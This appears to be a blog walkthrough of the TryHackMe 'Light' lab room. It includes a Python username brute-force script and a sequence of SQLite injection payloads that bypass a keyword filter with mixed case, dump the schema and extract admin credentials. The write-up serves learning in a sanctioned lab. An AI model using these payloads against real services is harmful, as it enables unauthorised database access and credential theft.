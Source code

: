 ```yaml
---
layout: post
title: "TryHackMe Light Walkthrough - SQL Injection Challenge"
description: "Complete step-by-step walkthrough for TryHackMe's Light room featuring SQLite injection techniques, database enumeration, and admin credential extraction. Perfect for beginners learning SQL injection fundamentals."
date: 2025-08-15 10:00:00 +0000
categories: [Cybersecurity, Writeups, Tryhackme]
tags: [tryhackme, thm, sql-injection, sqlite, database, enumeration, ctf, easy]
image: https://tryhackme-images.s3.amazonaws.com/room-icons/618b3fa52f0acc0061fb0172-1737140605838
sitemap:
  priority: 0.8
  changefreq: monthly
---
```



# TryHackMe Light Walkthrough
Link to the Room : https://tryhackme.com/room/lightroom

```
I am working on a database application called Light! Would you like to try it out?  
If so, the application is running on **port 1337**. You can connect to it using `nc MACHINE-IP 1337`  
You can use the username `smokey` in order to get started.
```
Lets start the machine and wait for 2-3 minutes, let the machine get fully functional.

`Q1 What is the admin username?`

As usual running a full port scan for identifying potential entry points.
`nmap -p- -T4 MACHINE-IP -vv`
![Nmap scan results](/_posts/attachments/Pasted image 20250816001828.png)

Meanwhile lets try connecting to the port 1337
`nc MACHINE-IP 1337`
Lets try the username provided `smokey`
![Testing with username smokey](/_posts/attachments/Pasted image 20250816002133.png)
Alright!

So, I guess we can try brute-forcing a wordlist of usernames, but we cannot use ffuf...
So,
I took this script from ChatGPT, and modified it little to make it work.
```python
import socket

target_ip = "10.201.15.128"  # change this
target_port = 1337
wordlist = "SecLists/Usernames/cirt-default-usernames.txt"  # your username list

with open(wordlist, "r") as f:
    usernames = [u.strip() for u in f if u.strip()]

for user in usernames:
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((target_ip, target_port))

    # Receive initial banner / prompt
    banner = s.recv(1024).decode()
    print(banner.strip())

    u = s.recv(1024).decode()
    print(u.strip())

    # Send username
    s.send((user + "\n").encode())

    # Receive response
    response = s.recv(1024).decode()
    print(f"[{user}] -> {response.strip()}")

    s.close()

```

I tried few wordlists but didn't find anything.

Got back to the nmap scan and LOL!, its gonna take forever so its not the way in for sure!
![Nmap scan taking too long](/_posts/attachments/Pasted image 20250816003201.png)

What else can we do? Found no `http` pages, where can we even use the credentials we've got earlier?
Lets try to change the approach.

Lets try putting in some random input, my mind is getting a little idea of where it is going _maybe_.
![Testing random input](/_posts/attachments/Pasted image 20250816003925.png)
Its more of an Injection vulnerability I see
Its been a long I have not dealt with a SQLi, now quickly digging through my notes for revising required methods.

From the responses below
![SQL injection response](/_posts/attachments/Pasted image 20250816004841.png)
I can imagine of a SQL query
`select pass from users where user='<input>' limit 30`

Now we'll try creating some SQL payloads based on the payloads I already have in my notes.
`'union select 1'`
![Union select blocked](/_posts/attachments/Pasted image 20250816005530.png)
Okhayy!
They might be blocking some keywords most probably as an easy way out. 
Here might be a logic error lets try `'UnIOn sElecT 1'`
![Bypassing keyword filter](/_posts/attachments/Pasted image 20250816005739.png)
as a developer I would also blacklist these keywords as its an easy fix(not a fix really). Laziness is a problem frr.
I love these kinda logic based errors!

Lets start enumerating.
`'Union Select @@version'`
Didn't work maybe some other database!

Refer this https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md#sqlite-enumeration

This one worked
`'Union Select sqlite_version()'`
Its sqlite database version: 3.31.1
![SQLite version](/_posts/attachments/Pasted image 20250816010644.png)

Using the [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md#sqlite-enumeration) Repository for reference!

`'Union Select sql from sqlite_master'`
![Database schema](/_posts/attachments/Pasted image 20250816010906.png)

Now we know the table name, column names.
Enough to craft useful payloads.

> You can use [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md#sqlite-enumeration) and suitable LLM for crafting payloads

`'Union Select username from admintable where id='1`
![Admin username](/_posts/attachments/Pasted image 20250816011619.png)
If needed we could've dumped all but in this case we don't need the whole database.

![Question 1 answer](/_posts/attachments/Pasted image 20250816011809.png)

`Q2 What is the password to the username mentioned in question 1?`
`'Union Select password from admintable where username='<admin-user>`
![Admin password](/_posts/attachments/Pasted image 20250816012001.png)

![Question 2 answer](/_posts/attachments/Pasted image 20250816012439.png)

`Q3 What is the flag?`
Till now you could've figured it out, we have already got the id for the user flag, so most probably its password will be the final flag.
Little modifications to the previous payload will get you the flag.

![Question 3 flag](/_posts/attachments/Pasted image 20250816012516.png)




